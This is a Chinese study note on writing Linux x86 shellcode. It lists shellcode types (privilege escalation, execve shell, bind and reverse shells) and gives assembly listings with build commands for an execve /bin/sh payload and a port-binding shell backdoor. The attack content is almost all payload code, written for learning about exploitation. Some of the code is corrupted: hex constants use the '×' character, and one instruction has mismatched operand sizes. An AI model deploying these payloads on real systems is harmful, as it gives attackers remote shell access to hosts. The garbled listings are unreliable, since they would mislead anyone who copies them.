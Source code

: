 shellcode开发
========================================

linux下shellcode编写
----------------------------------------

示例
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ http://shell-storm.org/shellcode/

基础
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ 中断0×80方式
	::
	
		应用程序调用系统调用的过程是： 
		1.把系统调用的编号存入 EAX；
		2.把函数参数存入其它通用寄存器；
		3.触发 0x80 号中断（int 0x80）。

shellcode
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ 分类
	- 本地提权: 获取root权限，通过系统调用setreuid
	- 执行shell ：执行执行/bin/sh ，通过系统调用  execve
	- 开启远程端口：用shellcode在目标计算机上打开一个端口(通讯服务)，并将Shell绑定到该端口，攻击者可以放弃入侵时的用的端口
	- 反向连接shellcode：当目标计算机在防火墙后时，防火墙不允许外边的计算机主动访问目标机器。所以即使采用上边的shellcode建立了服务后门，你还是不能与目标计算机建立连接。反向连接的含义就是，让目标计算机通过特定的IP(攻击者的)和端口反向连接到攻击者，也可以设定为在固定的时间段主动来建立连接。

+ 编写步骤
	- 编写出对应的C程序语言
	- 根据C语言反汇编或者直接编写C语言对应的汇编程序。
	- 调整汇编程序，减小shellcode体积，去掉可能存在的NULL字节。
	- 提取汇编语言对应的16进编码。

+ 示例
	-  /bin/sh shellocde（intel汇编写法)
		::
		
			xor eax,eax          eax=0
			push eax             eax=null
			push 0x68732f2f      压栈 //sh
			push 0x6e69622f      压栈 /bin
			mov ebx,esp          ebx=esp指向/bin/sh
			push eax             eax=null 结束栈null
			push ebx             参数2   ebx指向/bin/sh
			mov ecx,esp          参数3   ecx指向[“/bin/sh”,NULL]
			xor edx,edx          参数4  edx=NULL
			mov al,0xb           参数1  eax=0xb
			int 0x80  
			
			[root@0day linux]# nasm -f elf execve.asm  编写目标文件
			[root@0day linux]# ld -o execve execve.o   链接，生成可执行文件
			[root@0day linux]# objdump -d execve       获取16进制编码，提取shellcode
			
	- /bin/sh shellocde（AT&T汇编写法)
		::
		
			xorl   %eax,%eax
			pushl  %eax
			pushl  $0x68732f2f
			pushl  $0x6e69622f
			movl   %esp, %ebx
			pushl  %eax
			pushl  %ebx
			movl   %esp, %ecx
			xorl   %edx, %edx
			movb   $0xb, %eax
			int    $0x80

			[root@0day linux]# as -f elf execve2.asm     编写目标文件
			[root@0day linux]# ld -o execve2 execve2.o   链接，生成可执行文件
			[root@0day linux]# objdump -d execve2        获取16进制编码，提取shellcode
			
	- 端口绑定
		::
		
			xor    %eax,%eax
			xor    %ebx,%ebx
			xor    %ecx,%ecx
			push   %eax
			push   $0×1
			push   $0×2
			mov    %esp,%ecx
			inc    %bl
			mov    $0×66,%al
			int    $0×80
			mov    %eax,%esi
			push   %edx
			push   $0×8519ff02
			mov    %esp,%ecx
			push   $0×10
			push   %ecx
			push   %esi
			mov    %esp,%ecx
			inc    %bl
			mov    $0×66,%al
			int    $0×80
			push   %edx
			push   %esi
			mov    %esp,%ecx
			mov    $0×4,%bl
			mov    $0×66,%al
			int    $0×80
			push   %edx
			push   %edx
			push   %esi
			mov    %esp,%ecx
			inc    %bl
			mov    $0×66,%al
			int    $0×80
			mov    %eax,%ebx
			xor    %ecx,%ecx
			mov    $0×3f,%al
			int    $0×80
			inc    %ecx
			mov    $0×3f,%al
			int    $0×80
			inc    %ecx
			mov    $0×3f,%al
			int    $0×80
			push   %edx
			push   $0×68732f2f
			push   $0×6e69622f
			mov    %esp,%ebx
			push   %edx
			push   %ebx
			mov    %esp,%ecx
			mov    $0xb,%al
			int    $0×80

			[root@0day linux]# as -f elf bind.asm     编写目标文件
			[root@0day linux]# ld -o bind bind.o      链接，生成可执行文件
			[root@0day linux]# objdump -d bind        获取16进制编码，提取shellcode